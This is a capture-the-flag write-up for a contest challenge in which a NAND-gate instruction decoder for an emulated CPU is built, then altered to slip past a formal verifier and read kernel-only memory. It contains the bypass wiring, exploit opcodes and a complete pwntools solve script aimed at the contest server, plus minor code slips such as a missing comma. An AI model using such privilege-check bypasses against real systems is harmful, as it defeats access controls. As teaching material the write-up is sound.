


+++ 
title = "HWSIMV2"
date = 2025-08-07
authors = ["Aditya Sharma"]
+++
```
Perequisites for understanding this writeup
- A basic understanding of logic gates (just knowing what each does is enough)
- Assembly
```
# Challenge Description

The challenge requires you to build an instruction decoder for a CPU, then use it to access memory that you yourself have restricted access to by making the decoder output a security exception if you try to access certain parts of memory.

The decoder itself has to be made by describing to the script, an arrangement of NAND gates 


At first glance this challenge seems daunting (to be fair, it is pretty tough if you don't already know how a decoder works).

The CPU that you're designing this decoder for is actually a python script emulating the actions of a processor, if you look at the 
```
```python
def run(code):
	...
```
function, all it does it look at the instruction provided and maps it to an action that the "CPU" is supposed to do, like raising a flag, or outputting a value stored in "memory".

The challenge requires you to make this decoder (which gets formally verified against some constraints) and then use it to access kernel-only memory.

# What is a Decoder?

A lot of the people reading this writeup will probably be unfamiliar with what an instruction actually is, and how the CPU interprets it. While you do not need to know this at a very deep level to understand and solve this challenge; for me this was a massive blind spot in understanding how a CPU works and how you go from a logical circuit which does binary addition (a full adder) or something which stores a state (a D flip-flop) to something like your computer's CPU (or just any simple microcontroller) which does a lot more complex stuff. Knowing how this works has aided my understanding of other systems and their forms giving instructions to the CPU.

A processor can be modelled very simply by having an arithmetic unit, a logic unit, some registers and some RAM.

A decoder is a combinational circuit which takes in "opcodes" (short for operation code which are the actual binary numbers corresponding to assembly instructions) and sets the states of certain control signals (variables that the CPU looks at to determine its next action).

An instruction is just some n-bits (which form an opcode) sent to the processor at a time which sets the states of certain flags that determine the next action taken by the CPU. 
For example: you could have an 8 bit long instruction register (where the next instruction is stored) which had the MSB correspond to enabling the movement of data from a certain (fixed) register to the instruction pointer, another bit could correspond to moving (copying) a word from a position in the ram (the position being given by a register, say A) into another register (say D).

# Making a Decoder
The program provides you an interface for "creating" a decoder, it lets you tell it what three "wires" to join using NAND gates, so you can give it

`Write 3 wire names (e.g. 'C A B') to add NAND gate C = A NAND B`

There exists a pretty well known property of logical circuits, its that any combinational circuit can be made using nothing other than NAND gates. So you're supposed to come up with a design made completely out of NAND gates which satisfies the conditions imposed on the OPCODES.

# The Spec

Here's the CPU spec given in the chal.py script.
```
### ISA: 
`ISA means instruction set architecture`

- 4 8-bit registers

- 256 bytes of instruction memory

  - first 128 are user programs

  - second 128 are kernel code

- 256 bytes of data memory

  - first 128 are user-accessible

  - second 128 are kernel-only

### Instructions:

rdtsc rX (kernel only)
  0000'00rr
putc rX (kernel only)
  0000'01rr
ldi rX, imm
  0000'10rr
syscall
  0000'110x
- will jump into kernel location 130. Return address will be put in r0.
- kernel code handles syscall depending on r1, then sysret back to r0.
- r1 == 0: exit()
- r1 == 1: time() -> returns rdtsc in r2
- r1 == 2: putc(r2)
sysret (kernel only)
  0000'1110
halt
  0000'1111
load rX, [rY]
  0001'XXYY
store [rX], rY
  0010'YYXX
add rX, rY
  0011'XXYY
jmp rX
  01xx'xxrr
jz rX==0, rY
  1xxx'XXYY

### Combinatorial instruction decoder specification:

Inputs:

- is_root_now

- ins_0..ins_7

- r0_0..r0_7, ..., r3_0..r3_7

Outputs:

- is_rdtsc, is_putc, ... is_jz

- security_exception
```

```python
  constraints = []

  constraints.append(v["is_jz"]      == v["ins_7"])
  constraints.append(v["is_jmp"]     == ~v["ins_7"] & v["ins_6"])
  constraints.append(v["is_add"]     == ~v["ins_7"] & ~v["ins_6"] & v["ins_5"] & v["ins_4"])
  constraints.append(v["is_store"]   == ~v["ins_7"] & ~v["ins_6"] & v["ins_5"] & ~v["ins_4"])
  constraints.append(v["is_load"]    == ~v["ins_7"] & ~v["ins_6"] & ~v["ins_5"] & v["ins_4"])
  constraints.append(v["is_halt"]    == ~v["ins_7"] & ~v["ins_6"] & ~v["ins_5"] & ~v["ins_4"] & v["ins_3"] & v["ins_2"] & v["ins_1"] & v["ins_0"])
  constraints.append(v["is_sysret"]  == ~v["ins_7"] & ~v["ins_6"] & ~v["ins_5"] & ~v["ins_4"] & v["ins_3"] & v["ins_2"] & v["ins_1"] & ~v["ins_0"])
  constraints.append(v["is_syscall"] == ~v["ins_7"] & ~v["ins_6"] & ~v["ins_5"] & ~v["ins_4"] & v["ins_3"] & v["ins_2"] & ~v["ins_1"])
  constraints.append(v["is_ldi"]     == ~v["ins_7"] & ~v["ins_6"] & ~v["ins_5"] & ~v["ins_4"] & v["ins_3"] & ~v["ins_2"])
  constraints.append(v["is_putc"]    == ~v["ins_7"] & ~v["ins_6"] & ~v["ins_5"] & ~v["ins_4"] & ~v["ins_3"] & v["ins_2"])
  constraints.append(v["is_rdtsc"]   == ~v["ins_7"] & ~v["ins_6"] & ~v["ins_5"] & ~v["ins_4"] & ~v["ins_3"] & ~v["ins_2"])
  
  constraints.append(v["security_exception"] == ~v["is_root_now"] & Or([
      v["is_rdtsc"], v["is_putc"], v["is_sysret"], # <- is kernel instruction, or...
      And(Or(v["is_store"], v["is_load"]), is_kernel_addr) # <- is memory instruction with kernel address
  ]))
```

you can either try to piece together what each opcode bit (ins_0 to ins_7) represents from the CPU spec, or you can use the constraints used by the verifier to check your design to get the mappings more easily.

each control signal is just a specific combination of literals, we can first represent them as combinations of AND and NOT gates, and then represent those as NAND gates.


```python
gates = [
    ("abc528new_n26", "ins_0", "ins_0"),
    ("abc528new_n27", "ins_1", "ins_1"),
    ("abc528new_n28", "ins_2", "ins_2"),
    ("abc528new_n29", "ins_3", "ins_3"),
    ("abc528new_n30", "ins_4", "ins_4"),
    ("abc528new_n31", "ins_5", "ins_5"),
    ("jz_nand1",      "ins_7",    "ins_7"),
    ("is_jz",         "jz_nand1", "jz_nand1"),
    ("abc528new_n33", "ins_6", "ins_6"),
    ("abc528new_n34", "is_root_now", "is_root_now"),
    ("abc528new_n35", "r0_7", "r0_7"),
    ("abc528new_n36", "r1_7", "r1_7"),
    ("abc528new_n37", "r2_7", "r2_7"),
    ("abc528new_n38", "r3_7", "r3_7"),
    ("abc528new_n39", "jz_nand1", "abc528new_n33"),
    ("abc528new_n40", "abc528new_n39", "abc528new_n39"),
    ("abc528new_n41", "ins_5", "abc528new_n40"),
    ("abc528new_n42", "abc528new_n41", "abc528new_n41"),
    ("abc528new_n43", "abc528new_n30", "abc528new_n42"),
    ("is_store",      "abc528new_n43", "abc528new_n43"),
    ("abc528new_n45", "abc528new_n31", "abc528new_n40"),
    ("abc528new_n46", "abc528new_n45", "abc528new_n45"),
    ("abc528new_n47", "ins_4", "abc528new_n46"),
    ("is_load",       "abc528new_n47", "abc528new_n47"),
    ("abc528new_n49", "abc528new_n30", "abc528new_n46"),
    ("abc528new_n50", "abc528new_n49", "abc528new_n49"),
    ("abc528new_n51", "ins_3", "abc528new_n50"),
    ("abc528new_n52", "abc528new_n51", "abc528new_n51"),
    ("abc528new_n53", "ins_2", "abc528new_n52"),
    ("abc528new_n54", "abc528new_n53", "abc528new_n53"),
    ("abc528new_n55", "ins_1", "abc528new_n54"),
    ("abc528new_n56", "abc528new_n55", "abc528new_n55"),
    ("abc528new_n57", "abc528new_n26", "abc528new_n56")
    ("is_sysret",     "abc528new_n57", "abc528new_n57"),
    ("abc528new_n59", "abc528new_n29", "abc528new_n50"),
    ("abc528new_n60", "abc528new_n59", "abc528new_n59"),
    ("abc528new_n61", "ins_2", "abc528new_n60"),
    ("is_putc",       "abc528new_n61", "abc528new_n61"),
    ("abc528new_n63", "abc528new_n28", "abc528new_n60"),
    ("is_rdtsc",      "abc528new_n63", "abc528new_n63"),
    ("abc528new_n65", "abc528new_n28", "abc528new_n52"),
    ("is_ldi",        "abc528new_n65", "abc528new_n65"),
    ("abc528new_n67", "abc528new_n27", "abc528new_n54"),
    ("is_syscall",    "abc528new_n67", "abc528new_n67"),
    ("abc528new_n69", "ins_0", "abc528new_n56"),
    ("is_halt",       "abc528new_n69", "abc528new_n69"),
    ("abc528new_n71", "jz_nand1", "ins_6"),
    ("is_jmp",        "abc528new_n71", "abc528new_n71"),
    ("abc528new_n73", "abc528new_n43", "abc528new_n47"),
    ("abc528new_n74", "abc528new_n27", "abc528new_n36"),
    ("abc528new_n75", "ins_1", "abc528new_n38"),
    ("abc528new_n76", "abc528new_n74", "abc528new_n75"),
    ("abc528new_n77", "ins_0", "abc528new_n76"),
    ("abc528new_n78", "abc528new_n27", "abc528new_n35"),
    ("abc528new_n79", "ins_1", "abc528new_n37"),
    ("abc528new_n80", "abc528new_n78", "abc528new_n79"),
    ("abc528new_n81", "abc528new_n26", "abc528new_n80"),
    ("abc528new_n82", "abc528new_n77", "abc528new_n81"),
    ("abc528new_n83", "abc528new_n82", "abc528new_n82"),
    ("abc528new_n84", "abc528new_n73", "abc528new_n83"),
    ("abc528new_n85", "abc528new_n59", "abc528new_n84"),
    ("abc528new_n86", "abc528new_n85", "abc528new_n85"),
    ("abc528new_n87", "abc528new_n57", "abc528new_n86"),
    ("abc528new_n88", "abc528new_n34", "abc528new_n87"),
    ("security_exception", "abc528new_n88", "abc528new_n88"),
    ("abc528new_n90", "ins_4", "abc528new_n42"),
    ("is_add",        "abc528new_n90", "abc528new_n90")
]
```

This is the intended "structure" of NAND gates for a valid decoder.

HOWEVER, There exists a fault in the way the circuit is checked for validity, especially in the way the security exception is raised. 
```python
 constraints.append(v["security_exception"] == ~v["is_root_now"] & Or([
      v["is_rdtsc"], v["is_putc"], v["is_sysret"], # <- is kernel instruction, or...
      And(Or(v["is_store"], v["is_load"]), is_kernel_addr) # <- is memory instruction with kernel address
  ]))
```

if you look at this, you'll see that bypassing the formal verification is simple.

Formal verification proves that:
 **“If the system behaves exactly as modeled, then property P always holds.”**

the verifier works through by setting values to certain opcode bits and checking for bad-outputs, however if you set both security exception to zero and is_root_now to 1 always, you'll always get a valid output because the verifier just sees "oh this guy is root and theres no security exception". 

The verifier doesn't see cases of the security exception being high, and it doesn't care about it.

so you can just take any opcode and wire it like 

security exception = op_bit AND ~op_bit
is_root_now = op_bit OR ~op_bit

it'll just let you read from kernel memory and get the flag the assembly for that would look something like this:

```
The opcodes for printing the flag out would be something like this

08 XX;  ldi XX into r0 
14 ;    load r1, [r0]
05 ;    putc r1

where XX varies from 0x80 to 0xFF (we'll do till 0x99 because we solved and alr know the length of the flag lol)

followed by

0f ; halt
```

so the opcodes for printing the flag out can be printed by this tiny python snippet

```python
for i in range(0x80,0xAF):

    print(f"08{hex(i)[2:]}1405",end="")    

print("0f")
```

Finally, we have a fully automated solve script:

```python
from pwn import * # type: ignore

import subprocess

import re

import os

import tempfile

  

# Define all gates as (output, input1, input2) tuples

gates_valid = [

    ("n_ins_0", "ins_0", "ins_0"),

    ("n_ins_1", "ins_1", "ins_1"),

    ("n_ins_2", "ins_2", "ins_2"),

    ("n_ins_3", "ins_3", "ins_3"),

    ("n_ins_4", "ins_4", "ins_4"),

    ("n_ins_5", "ins_5", "ins_5"),

    ("jz_nand1",      "ins_7",    "ins_7"),

    ("is_jz",         "jz_nand1", "jz_nand1"),

    ("n_ins_6", "ins_6", "ins_6"),

    ("n_is_root_now", "is_root_now", "is_root_now"),

    ("abc528new_n35", "r0_7", "r0_7"),

    ("abc528new_n36", "r1_7", "r1_7"),

    ("abc528new_n37", "r2_7", "r2_7"),

    ("abc528new_n38", "r3_7", "r3_7"),

    ("abc528new_n39", "jz_nand1", "n_ins_6"),

    ("abc528new_n40", "abc528new_n39", "abc528new_n39"),

    ("abc528new_n41", "ins_5", "abc528new_n40"),

    ("abc528new_n42", "abc528new_n41", "abc528new_n41"),

    ("abc528new_n43", "n_ins_4", "abc528new_n42"),

    ("is_store",      "abc528new_n43", "abc528new_n43"),

    ("abc528new_n45", "n_ins_5", "abc528new_n40"),

    ("abc528new_n46", "abc528new_n45", "abc528new_n45"),

    ("abc528new_n47", "ins_4", "abc528new_n46"),

    ("is_load",       "abc528new_n47", "abc528new_n47"),

    ("abc528new_n49", "n_ins_4", "abc528new_n46"),

    ("abc528new_n50", "abc528new_n49", "abc528new_n49"),

    ("abc528new_n51", "ins_3", "abc528new_n50"),

    ("abc528new_n52", "abc528new_n51", "abc528new_n51"),

    ("abc528new_n53", "ins_2", "abc528new_n52"),

    ("abc528new_n54", "abc528new_n53", "abc528new_n53"),

    ("abc528new_n55", "ins_1", "abc528new_n54"),

    ("abc528new_n56", "abc528new_n55", "abc528new_n55"),

    ("abc528new_n57", "n_ins_0", "abc528new_n56"),

    ("is_sysret",     "abc528new_n57", "abc528new_n57"),

    ("abc528new_n59", "n_ins_3", "abc528new_n50"),

    ("abc528new_n60", "abc528new_n59", "abc528new_n59"),

    ("abc528new_n61", "ins_2", "abc528new_n60"),

    ("is_putc",       "abc528new_n61", "abc528new_n61"),

    ("abc528new_n63", "n_ins_2", "abc528new_n60"),

    ("is_rdtsc",      "abc528new_n63", "abc528new_n63"),

    ("abc528new_n65", "n_ins_2", "abc528new_n52"),

    ("is_ldi",        "abc528new_n65", "abc528new_n65"),

    ("abc528new_n67", "n_ins_1", "abc528new_n54"),

    ("is_syscall",    "abc528new_n67", "abc528new_n67"),

    ("abc528new_n69", "ins_0", "abc528new_n56"),

    ("is_halt",       "abc528new_n69", "abc528new_n69"),

    ("abc528new_n71", "jz_nand1", "ins_6"),

    ("is_jmp",        "abc528new_n71", "abc528new_n71"),

    ("abc528new_n73", "abc528new_n43", "abc528new_n47"),

    ("abc528new_n74", "n_ins_1", "abc528new_n36"),

    ("abc528new_n75", "ins_1", "abc528new_n38"),

    ("abc528new_n76", "abc528new_n74", "abc528new_n75"),

    ("abc528new_n77", "ins_0", "abc528new_n76"),

    ("abc528new_n78", "n_ins_1", "abc528new_n35"),

    ("abc528new_n79", "ins_1", "abc528new_n37"),

    ("abc528new_n80", "abc528new_n78", "abc528new_n79"),

    ("abc528new_n81", "n_ins_0", "abc528new_n80"),

    ("abc528new_n82", "abc528new_n77", "abc528new_n81"),

    ("abc528new_n83", "abc528new_n82", "abc528new_n82"),

    ("abc528new_n84", "abc528new_n73", "abc528new_n83"),

    ("abc528new_n85", "abc528new_n59", "abc528new_n84"),

    ("abc528new_n86", "abc528new_n85", "abc528new_n85"),

    ("abc528new_n87", "abc528new_n57", "abc528new_n86"),

    ("pre_sec", "n_is_root_now", "abc528new_n87"),

    ("security_exception", "pre_sec", "pre_sec"),

    ("abc528new_n90", "ins_4", "abc528new_n42"),

    ("is_add",        "abc528new_n90", "abc528new_n90")

]

  

# our modified gates

gates = [

    ("n_ins_0", "ins_0", "ins_0"),

    ("n_ins_1", "ins_1", "ins_1"),

    ("n_ins_2", "ins_2", "ins_2"),

    ("n_ins_3", "ins_3", "ins_3"),

    ("n_ins_4", "ins_4", "ins_4"),

    ("n_ins_5", "ins_5", "ins_5"),

    ("jz_nand1",      "ins_7",    "ins_7"),

    ("is_jz",         "jz_nand1", "jz_nand1"),

    ("n_ins_6", "ins_6", "ins_6"),

    ("is_root_now","n_ins_0","ins_0"),

    ("n_is_root_now", "is_root_now", "is_root_now"),

    ("abc528new_n35", "r0_7", "r0_7"),

    ("abc528new_n36", "r1_7", "r1_7"),

    ("abc528new_n37", "r2_7", "r2_7"),

    ("abc528new_n38", "r3_7", "r3_7"),

    ("abc528new_n39", "jz_nand1", "n_ins_6"),

    ("abc528new_n40", "abc528new_n39", "abc528new_n39"),

    ("abc528new_n41", "ins_5", "abc528new_n40"),

    ("abc528new_n42", "abc528new_n41", "abc528new_n41"),

    ("abc528new_n43", "n_ins_4", "abc528new_n42"),

    ("is_store",      "abc528new_n43", "abc528new_n43"),

    ("abc528new_n45", "n_ins_5", "abc528new_n40"),

    ("abc528new_n46", "abc528new_n45", "abc528new_n45"),

    ("abc528new_n47", "ins_4", "abc528new_n46"),

    ("is_load",       "abc528new_n47", "abc528new_n47"),

    ("abc528new_n49", "n_ins_4", "abc528new_n46"),

    ("abc528new_n50", "abc528new_n49", "abc528new_n49"),

    ("abc528new_n51", "ins_3", "abc528new_n50"),

    ("abc528new_n52", "abc528new_n51", "abc528new_n51"),

    ("abc528new_n53", "ins_2", "abc528new_n52"),

    ("abc528new_n54", "abc528new_n53", "abc528new_n53"),

    ("abc528new_n55", "ins_1", "abc528new_n54"),

    ("abc528new_n56", "abc528new_n55", "abc528new_n55"),

    ("abc528new_n57", "n_ins_0", "abc528new_n56"),

    ("is_sysret",     "abc528new_n57", "abc528new_n57"),

    ("abc528new_n59", "n_ins_3", "abc528new_n50"),

    ("abc528new_n60", "abc528new_n59", "abc528new_n59"),

    ("abc528new_n61", "ins_2", "abc528new_n60"),

    ("is_putc",       "abc528new_n61", "abc528new_n61"),

    ("abc528new_n63", "n_ins_2", "abc528new_n60"),

    ("is_rdtsc",      "abc528new_n63", "abc528new_n63"),

    ("abc528new_n65", "n_ins_2", "abc528new_n52"),

    ("is_ldi",        "abc528new_n65", "abc528new_n65"),

    ("abc528new_n67", "n_ins_1", "abc528new_n54"),

    ("is_syscall",    "abc528new_n67", "abc528new_n67"),

    ("abc528new_n69", "ins_0", "abc528new_n56"),

    ("is_halt",       "abc528new_n69", "abc528new_n69"),

    ("abc528new_n71", "jz_nand1", "ins_6"),

    ("is_jmp",        "abc528new_n71", "abc528new_n71"),

    ("abc528new_n73", "abc528new_n43", "abc528new_n47"),

    ("abc528new_n74", "n_ins_1", "abc528new_n36"),

    ("abc528new_n75", "ins_1", "abc528new_n38"),

    ("abc528new_n76", "abc528new_n74", "abc528new_n75"),

    ("abc528new_n77", "ins_0", "abc528new_n76"),

    ("abc528new_n78", "n_ins_1", "abc528new_n35"),

    ("abc528new_n79", "ins_1", "abc528new_n37"),

    ("abc528new_n80", "abc528new_n78", "abc528new_n79"),

    ("abc528new_n81", "n_ins_0", "abc528new_n80"),

    ("abc528new_n82", "abc528new_n77", "abc528new_n81"),

    ("abc528new_n83", "abc528new_n82", "abc528new_n82"),

    ("abc528new_n84", "abc528new_n73", "abc528new_n83"),

    ("abc528new_n85", "abc528new_n59", "abc528new_n84"),

    ("abc528new_n86", "abc528new_n85", "abc528new_n85"),

    ("abc528new_n87", "abc528new_n57", "abc528new_n86"),

    ("pre_sec", "n_is_root_now", "abc528new_n87"),

    ("n_pre_sec","pre_sec","pre_sec"),

    ("tmp_sec","pre_sec","n_pre_sec"),

    ("security_exception", "tmp_sec", "tmp_sec"),

    ("abc528new_n90", "ins_4", "abc528new_n42"),

    ("is_add",        "abc528new_n90", "abc528new_n90")

]

  

opcodes = b"08801405088114050882140508831405088414050885140508861405088714050888140508891405088a1405088b1405088c1405088d1405088e1405088f140508901405089114050892140508931405089414050895140508961405089714050898140508991405089a1405089b1405089c1405089d1405089e1405089f140508a0140508a1140508a2140508a3140508a4140508a5140508a6140508a7140508a8140508a9140508aa140508ab140508ac140508ad140508ae14050f"

  

def solve_pow(challenge):

    """Solves kCTF proof-of-work challenge using the official solver"""

    # Download the kctf-pow script
    script_path = os.path.join(tempfile.gettempdir(), "kctf-pow.py")
    if not os.path.exists(script_path):
        subprocess.run(['curl', '-sSL', 'https://goo.gle/kctf-pow', '-o', script_path], check=True)

    # Solve the challenge
    result = subprocess.run(['python3', script_path, 'solve', challenge],
                            capture_output=True, text=True)

    if result.returncode != 0:
        raise RuntimeError(f"PoW solve failed: {result.stderr}")
    return result.stdout.strip()

  

def main():

    # Start the CPU emulator challenge

    p = remote("hwsim.2025.ctfcompetition.com", 1337)
    # Handle proof-of-work if presented

    try:
        pow_prompt = p.recvuntil(b"Solution?", timeout=2) # type: ignore
        if b"proof-of-work" in pow_prompt:
            # Extract challenge string
            match = re.search(rb'python3.*solve (\S+)', pow_prompt)
            if not match:
                log.error("Failed to extract PoW challenge")
                return
            challenge = match.group(1).decode()
            log.info(f"Solving PoW challenge: {challenge}")
            # Solve PoW
            solution = solve_pow(challenge)
            log.info(f"PoW solution: {solution}")
            # Submit solution
            p.sendline(solution.encode())
            p.recvline()  # Skip "Correct" response

    except EOFError:
        log.error("Process ended prematurely")
        return

    # Add all gates through the menu

    for output, in1, in2 in gates:
        p.recvuntil(b"6. Quit.\n")
        p.sendline(b"3")
        p.recvuntil(b"to add NAND gate C = A NAND B\n")
        p.sendline(f"{output} {in1} {in2}".encode())
        log.info(f"Added gate: {output} = {in1} NAND {in2}")

  

    p.sendlineafter("6. Quit.",b"5")
    p.sendlineafter("Input (hex-encoded) user code (up to 128 bytes):",opcodes)

    p.interactive()

if __name__ == "__main__":
    context.log_level = 'info'
    main()
```